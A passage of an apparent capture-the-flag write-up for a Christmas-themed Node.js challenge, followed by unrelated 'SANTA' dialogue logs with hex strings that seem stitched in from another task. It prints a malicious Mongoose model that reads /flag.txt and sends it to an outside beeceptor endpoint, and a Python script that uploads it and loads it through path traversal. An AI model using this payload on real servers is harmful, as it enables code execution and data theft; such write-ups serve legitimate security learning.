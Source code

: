 
When we add a gift, its method `store` is executed. Hence, it is a
good target to insert our payload in our malicious model. Here is the
whole file `pwn.js` I uploaded to the server: it reads the flag file
and exfiltrates it to a beeceptor endpoint.

```javascript
const mongoose = require('/usr/app/node_modules/mongoose');

const fs = require('fs');

const pwnSchema = new mongoose.Schema({
    name: { type: String, default: 'Pwn' },
    description: { type: String, default: 'A very malicious exploit.' }
});

pwnSchema.methods.store = function() {
    const fs = require('fs');
    fs.readFile('/flag.txt', 'utf8', (err, data) => {
	if (err) {
	    console.error(err);
	    return;
	}
	const https = require('https');

	https.get(`https://spikeroot.free.beeceptor.com?flag=${data}`);
	return;
    });
    return this;
};

module.exports = mongoose.model('Pwn', pwnSchema);
```

Finally, we can write a Python script to upload the poisoned gift and
add it to Santa's sack thanks to the API.

```python
import requests
import json

url = 'http://dyn-01.xmas.root-me.org:36038'

files = {'photo': open('pwn.js','rb')}
values = {'name': 'Exploit'}

r = requests.post(url + '/api/suggest', files=files, data=values)

print(r.text)

filename = json.loads(r.text)["photoPath"]

r = requests.post(url + '/api/add', data={'product': '../../../../' + filename[:-3]})

print(r.text)
```


[SANTA]: Hello player, welcome! Here is your gift for this christmas: d25403e95412f681c87af504174705231be5aa0a8ae8c7caea6dc25657ab1ca6ea58a73f39249dc7827e1d99363d3a84b593cf266f286281eb4e90f6da791aaa
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
[SANTA]: Enter the message you wish to wrap:
[SANTA]: Here is your wrapped present: cd7c0adf1d7ce1b6ed41b220257f39561adb8337ad9db4af907590180efa29e1
[SANTA]: Merry Christmas!
[SANTA]: Hello player, welcome! Here is your gift for this christmas: 0ed3526241d4570c998d6d1e170c9a2b70c88e3995ac7284fd1319d2fa1063e28149b4914ae20cb0c835935c2fadc6fc16b78829215aac23706c915450c432e6
[SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
[SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)
[SANTA]: Enter the message you wish to wrap:
[SANTA]: Here is your wrapped present: 3dff484710fb6232afbe382f2934b41f43f6a811b29940bacb432cfbc42631c2ab7796a272d3399eee06b36d06959db50ad9e6474f34c24d1e02ff3a3eaa5c8853e26d86f052a8374fbe4aa6de30fb0d4c78a56b0f623289ae11930ba3e3a71c
[SANTA]: Merry Christmas!
